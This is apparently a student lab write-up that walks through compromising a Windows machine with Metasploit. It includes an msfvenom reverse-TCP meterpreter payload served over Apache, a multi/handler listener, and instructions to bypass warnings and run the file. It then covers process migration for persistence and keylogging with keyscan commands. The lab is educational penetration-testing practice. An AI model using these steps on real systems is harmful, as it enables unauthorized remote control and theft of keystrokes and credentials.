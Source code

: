 # Compromising-windows-using-Metasploit

## AIM:

To Compromise windows using Metasploit 

## DESIGN STEPS:

1) Install kali linux either in partition or virtual box or in live mode

2) Investigate on the various categories of tools as follows:

3) Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

### PROGRAMS:

Find the attackers ip address using ifconfig

#### OUTPUT:
![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/652db2a7-41fe-4f0b-9d6a-bafd45358c66)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

#### OUTPUT:

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/8a94c14f-93c4-44c0-9307-09d091275f2a)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/00951cdd-6e72-425a-a7d3-3861205e75a1)

Start apache server sudo systemctl apache2 start

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/ab5917bc-b667-43e6-8569-afac549df4de)

Check the status of apache2

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/2b2a7279-1968-4f7b-ac9d-25a6fbd9d8f8)

### Invoke msfconsole:'

#### OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler


![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/f81fb9a9-568e-48de-a97d-224f14916b52)

set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/8905bab0-5573-4be1-82ca-a6a510ed478f)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/3b376e36-9001-421e-9301-ffb999a638f1)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/89123af1-f1c2-4cfb-a5a8-c24bdc714336)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/d3eab66d-7142-4366-ac4d-d2644fc02717)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/6b83ef4d-6410-45d3-a6ae-f63b3b13c953)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/2ee279ad-7ce2-426b-960c-a92a0c067e8a)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
